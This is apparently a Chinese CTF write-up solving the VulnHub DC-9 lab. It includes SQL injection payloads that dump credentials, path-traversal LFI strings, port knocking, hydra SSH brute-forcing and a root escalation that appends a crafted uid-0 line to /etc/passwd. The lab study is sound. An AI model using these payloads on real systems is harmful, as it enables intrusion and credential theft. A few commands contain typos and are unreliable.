# DC-9
- 目标与定位： 这是一个经典的 Boot-to-Root（启动到夺旗）挑战。你的终极目标依然是突破边界，拿到系统的最高 root 权限，并找到最终的 flag。
- 整体难度： 社区通常将其评估为中等 (Intermediate)。它不会像纯新手靶机那样直接把漏洞白给，但也不会要求你去编写复杂的底层漏洞利用代码（比如缓冲区溢出）。

---

# 主机发现、端口扫描

本级的IP地址为192.168.64.2
```shell
$ ip a
```
显示如下：


使用nmap扫描主机存活：
```shell
$ nmap -sn --max-rate 1000 -T2 192.168.64.0/24
```
显示如下：


> **对`nmap`是否要加`sudo`的解释**
这里可以使用`sudo nmap`，在kali里面已经对nmap添加了一定的权限，使用`getcap`查看`nmap`可以清楚的看到权限为`eip`
> - `p`: 这个程序的capablity是授权的
> - `e`: 在这个程序运行激活后，相应的授权会触发
> - `i`: 这个程序运行后，其子进程也会继承对应的capablity

>**什么是Linux Capabilities（能力机制）**
在传统的 Linux 权限模型中，权限是非黑即白的：
要么你是普通用户，权限处处受限。
要么你是 root（超级管理员），拥有系统的所有最高权限。
过去，如果一个普通用户需要运行某个需要特权的程序（比如用 ping 命令发送网络数据包，或者让 Web 服务器绑定到 80 端口），通常会将该程序设置为 SUID。这意味着程序运行时，会短暂地拥有完整的 root 权限。这非常不安全，一旦这个程序有漏洞，黑客就能获取系统的最高控制权。
Linux Capabilities 就是为了解决这个问题而诞生的。它将 root 用户的庞大权限拆分成了几十个细小且独立的“能力（Capabilities）”。
核心理念（最小权限原则）： 程序需要什么特权，就只给它什么特权，绝对不给多余的。

> **`-T2`和`--max-rate`参数的使用**
> 这里使用`-T2`和`--max-rate`参数，主要是考虑到对流量的控制，当然这里是靶机，可以去掉。

可知靶机的IP地址为: `192.168.64.6`

下面分别开始使用TCP和UDP扫描端口，并且扫描推测靶机的系统版本:
- 使用TCP扫描，采用半开放式扫描
```shell
$ nmap -sS -sT --max-rate 1000 -T2 -p- -O 192.168.64.6
```

这里偷个懒，加快扫描了。可以看到有2个端口扫出来了（22,80）。这个22端口有点特殊，显示为*filtered*。

- 使用UDP扫描
```shell
$ nmap -sU --max-rate 1000 -T2 --top-ports 100 192.168.64.6
```


使用nmap默认脚本，扫描已经发现的端口，并且探测相应的服务
```shell
$ nmap -sC -sV -p22,80,68,1 192.168.64.6
```


> **为什么需要加上1这个端口**
nmap扫描端口的时候，是不同端口返回的状态来相互比较，从而得到不同端口信息。

使用nmap的内置漏洞脚本，扫描漏洞：
```shell
$ nmap -sV --script=vuln -p22,80 192.168.64.6
```
结果如下：

说明有漏洞。

# 进军80端口
打开网页看一下：访问`http://192.168.64.6:80`，

随便看看，发现点什么，有2个地方是感觉可能有利用价值的，显示如下
- 搜索：这里有没有可能有*sql注入*，因为search一般是进行数据库查询的


- 用户名与密码：


与上面nmap内置漏洞脚本扫描结果结合一下，就是这2个文件（search.php, manage.php），上面说可能有CSRF漏洞，这里应该用不上什么CSRF了。

## 试试search.php
### 1.手工注入
因为不知道后端的代码是用什么形式将输入的内容进行包裹的，因此只能试试了：只能尝试，我这里是幸运的，输入如下
```text
' or 1=1 --+
```
页面显示如下：

sql注入成功。下面开始一步步的获取更多信息。

这里的输出，只有查询成功并且有结果才会显示，查不到或者代码错误什么的都显示“0条结果”，我使用`order by`没有测试出来这个`select`查询了多少个参数，只能一步步试：
```sql
' union select 1,2,3,4 --+
```
直到我测试到：
```sql
' union select 1,2,3,4,5,6 --+
```
终于页面显示如下：


#### 1.1 查询数据库版本、当前数据库名称、当前用户名称
```sql
' union select 1,2,3,user(),database(),version() --+
```


- 当前用户：`dbuser@localhost`
- 当前数据库名：`Staff`
- 数据库版本：`10.3`

#### 1.2 查询有多少个数据库
mysql数据库版本 > 5.0 有`information_schema`数据库
```sql
' union select 1,group_concat(schema_name),3,4,5,6 from information_schema.schemata --+
```
这里如果通过浏览器页面查看或者通过查看源码，都找不到什么有用信息。
然后我通过抓包来做，然后就找到了，先打开Burp Suite来抓包，然后点击`send to repeater`（需要修改一下`search`这个参数，把上面的注入代码直接复制上去就可以了）
**Request**显示如下：


**Response**显示如下：

可以看出这个mysql里面有三个数据库：`information_schema`, `Staff`, `users`
`information_schema`这个数据库主要提供一些有什么数据库、数据库中有哪些表、表中有哪些字段。所以主要查看`Staff`和`users`这2个数据库。

#### 1.3 查看数据库`users`
**得到`users`数据库里面的表**
```sql
' union select 1,group_concat(table_name),3,4,5,6 from information_schema.tables where table_schema='users' --+
```
Burp Suite得到如下：

`users`数据库里面只有一个`UserDetails`这个表。

**得到`UserDetails`表里面的字段**
```sql
' union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_name='UserDetails' --+
```
Burp Suite得到如下：

`UserDetails`表里面的字段有：`id`, `firstname`, `lastname`, `username`, `password`, `reg_date`

**得到这张表里面的信息**
```sql
' union select 1,group_concat(concat(id,',',firstname,',',lastname,',',username,',',password,',',reg_date,';')),3,4,5,6 from users.UserDetails
```
Burp Suite得到如下：


**提取出信息：**
将内容保存在`user_passwd.txt`文件中，使用vim在命令行界面输入：
```vim
:%s/;,/\r/g
```
得到：


```shell
$ touch user.txt
$ touch passwd.txt
$ awk -F ',' '{print $2; print $3; print $4}' user_passwd.txt > user.txt
$ awk -F ',' '{print $5}' user_passwd.txt > passwd.txt
```
把用户与密码分别存储。

#### 1.4 查看数据库`Staff`
**得到`Staff`数据库里面的表**
```sql
' union select 1,group_concat(table_name),3,4,5,6 from information_schema.tables where table_schema='Staff' --+
```
Burp Suite得到如下：

里面有2张表：`StaffDetails`和`Users`。

**得到`StaffDetails`表里面的字段**
```sql
' union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_name='StaffDetails' --+
```
结果如下：


**得到`StaffDetails`表里面的信息**
```sql
' union select 1,group_concat(concat(id,',',firstname,',',lastname,',',position,',',phone,',',email,',',reg_date,';')),3,4,5,6 from Staff.StaffDetails
```

这里显示出来的内容应该就是原始web界面上显示出来的内容，应该没有啥有用信息。

**得到`Users`表里面的字段**
```sql
' union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_name='Users' --+
```


**得到`Users`表里面的信息**
```sql
' union select 1,group_concat(concat(UserID,',',Username,',',Password,',',';')),3,4,5,6 from Staff.Users --+
```




32个字节，也就是128bit，像是md5编码过的。

使用md5暴力破解；
```shell
$ hashcat -m 0 [md5码] /usr/share/wordlists/rockyou.txt
```
结果没碰撞出来。
使用在线网站：crackstation.net，成功了

得到了一个看起来是非常有用的账户：
`admin : transorbital1`

### 2.尝试查看当前用户的权限
```sql
' union select 1,group_concat(privilege_type),3,4,5,6 from information_schema.user_privileges --+
```
显示如下：

权限为`USAGE`，大概确实只有查阅数据库的权限，没有读取系统文件和写入文件的权限。

### 3.使用sqlmap工具
将`request`内容粘贴进`request_results.txt`里面:


**查询数据库：**
```shell
$ sqlmap -r request_results.txt -p search --dbs
```


**查询Staff数据库下面有哪些表**
```shell
$ sqlmap -r request_results.txt -p search -D Staff --tabels
```


`Staff`数据库里面有2个表格`StaffDetails`, `Users`

**查询`StaffDetails`表里面有哪些字段**
```shell
$ sqlmap -r request_results.txt -p search -D Staff -T StaffDetails --columns
```


**查询`StaffDetails`表里面的信息**
```shell
$ sqlmap -r request_results.txt -p search -D Staff -T StaffDetails -C "position,email,firstname,id,lastname,phone,reg_date" --dump
```
查询到的信息与上面手工注入的结果是一致的。

**查询`Users`数据库里面有哪些表**
```shell
$ sqlmap -r request_results.txt -p search -D users --tables
```


**查询`UserDetails`表里面有哪些字段**
```shell
$ sqlmap -r request_results.txt -p search -D users -T UserDetails --clolumns
```


**查询`UserDetails`表里面的信息**
```shell
$ sqlmap -r request_results.txt -p search -D users -T UserDetails -C "id,firstname,lastname,username,password,reg_date" --dump
```
查询到的信息与上面手工注入的结果是一致的。

## 尝试manage.php
基于上面的得到了这么多的账号和密码，开始尝试登陆。
先尝试：`admin`和`transorbital1`


nice, 直接就登陆进去了。

在图片中注意到*File does not exist*，会不会有文件包含漏洞？

通过刷新页面，然后抓包，可知这个是以`GET`方式提交的。那就先要得到参数名称是啥，使用`ffuf`这个工具来暴力破解。（这里不能扫太快，否则会错过）
```shell
$ ffuf -request request_fuzz.txt -request-proto http -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fs 1341 -t 5 -rate 3 -p 0.1-0.9
```
结果如下：


可以发现有参数：`file`

于是访问：`http://192.168.64.6:80/manage.php?file=../../../../../../etc/passwd`
页面显示如下：


# 进军22端口

到这里戛然而止，感觉这个80端口已经利用完了。这时候回头，想到还有一个ssh的22端口，当时显示的是`filter`.

显示为`filter`的原因有很多，你可以去用多种方法再去扫一遍（我干过，没有啥好消息）。在vulnhub里面经常考到的是`Port Knocking`这个知识点。（我也是查了资料才知道的这个，记住这个就完事儿了）

> **什么是Port Knocking**
Port Knocking（端口敲门） 是一种网络安全机制，它允许你通过发送一连串“秘密的”网络数据包，来动态地打开服务器上原本被防火墙隐藏或关闭的端口。
>为了更容易理解，你可以把它想象成地下酒吧的“暗号敲门法”：
酒吧的大门平时是紧锁的，外面看起来就像个废弃仓库（这就是你扫描出的 filtered 状态）。如果你瞎敲门，里面的人根本不理你。但是，如果你按照约定的节奏敲门——比如“先敲1下，停顿，再敲3下，再敲2下”——门卫（防火墙）听懂了暗号，就会偷偷为你开个小门（开放 22 端口）。

如果是Port Knocking，那么应该在/etc下面有个配置文件knockd.conf，结合上面的LFI，可以尝试去读取一下：
访问: `http://192.168.64.6:80/manage.php?file=../../../../../../../etc/knockd.conf`
页面显示如下：


好了，结果很明显了，依次敲击端口：`7469`, `8475`, `9842`
```shell
$ knock 192.168.64.6 7469 8475 9842
```
显示如下：


前面拿到了这么多的用户名和密码，并且在/etc/passwd里面也看到了这多用户名在里面，因此尝试暴力破解ssh.
这里使用字典攻击，先使用前面构建的字典，
```shell
$ hydra -L user.txt -P passwd.txt -t 2 -W 30 -V ssh://192.168.64.6
```
显示结果如下：


3个账号直接使用ssh登陆！
三个账号没有创建文件的权限，`sudo -l`也没有什么，`history`也没有什么。
在用户`janitor`的家目录里找到了这个：


发现了更多的密码（这个文件名像是在提示我们破解更多的用户），将这些密码全部加到`passwd.txt`文件里面。

简单看了一下`/etc/ssh/sshd.config`文件，里面没有白名单/黑名单来允许/禁止用户登陆*ssh*，所以我下面尝试使用/`etc/passwd`里面的所有用户配合`passwd.txt`来字典攻击*ssh*，希望可以发现更多用户。

将/etc/passwd内容保存在etc_passwd.txt里面，将上面显示出来的密码保存在onpass.txt文件里面。
```shell
$ awk -F ':' '{print $1}' | grep -Fxv -f user.txt >> user.txt
$ awk '{print $1}' | grep -Fxv -f passwd.txt >> passwd.txt
```

再次进行ssh字典破解：可以去掉已经破解出来的用户
```shell
$ hydra -L user.txt -P passwd.txt -t 4 -W 10 -V ssh://192.168.64.6
```
又找到：


直接登陆`fredf`用户。
显示如下结果：

NICE
有一个程序是可以以root权限运行的，先去了解一下这个程序是干什么的。
执行后，显示如下：

好像要让我们去找一个`test.py`的文件，然后用pytho来运行，找一下：
```shell
$ find / \( -path /sys -o -path /proc -o -path /root -o -path /usr -o -path /dev \) -prune -o -name "test.py" 2>/dev/null
```
找到了：


去看看这个文件道理干了啥：

这个文件的内容很简单，就是后面2个参数，读取第一个参数的文件，然后追加到第二个文件中。

这可就有利用漏洞了：如果我自己构造一个用户，使用自己设置的密码，将这些内容追加到`/etc/passwd`中（`uid`和`gid`全部设为0），然后我在尝试切换用户或者尝试ssh登陆，那不就提权成功了吗。😁

开始尝试：
- 先创建一个文件`xxx.txt`，在文件里面加入如下字段：（这个用户的密码是123456）


    ```text
    yyy:$6$abc$ONXVqaRaiSFohn5LyElW.FY3mlScr2Lu6FYzpl0Odcoz.LTwcPHLKC5GaIcu0K6GE5QPvA400c2XWHIFL.ueT/:0:0:nice:/root:/bin/bash
    ```
- 使用`python test.py`将其追加到`/etc/passwd`
    ```shell
    $ cd /opt/devstuff/dist/test
    $ sudo ./test /home/fredf/xxx.txt /etc/passwd
    ```
- 切换用户至`yyy`
    ```shell
    su yyy
    ```
    输入密码123456后，显示如下：
    
    
    nice 😊

---

# 回头看一下，为啥抓包能拿到数据，但是页面却显示不出来

在页面原始输入下，request数据包如下：


可以看到`search`参数的内容被URL编码了，再看看后端`results.php`这个文件里的关键几行代码：


源码中是将`search`参数直接替换进去，并没有进行解码，从而导致查询失败，返回`0 results`.

所以在上面是将search参数调整为：
```sql
' union select 1,group_concat(schema_name),3,4,5,6 from information_schema.schemata --+
```
即：

就能成功查询了。

---
---

# 硬件与软件平台
## 硬件
- Apple Macbook pro M1-Pro 32G 512G
- `UTM虚拟机`

## 软件
kali
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- `Arm64`

靶机DC-9: 
- `https://www.vulnhub.com/entry/dc-9,412/`
- 解压出来的`DC-9.ova`文件，使用
    ```shell
    tar -xvf DC-9.ova
    ```
    使用解压出来的`.vmdk`文件

---

> 水平有限，有不足、错误之处欢迎指出。🧐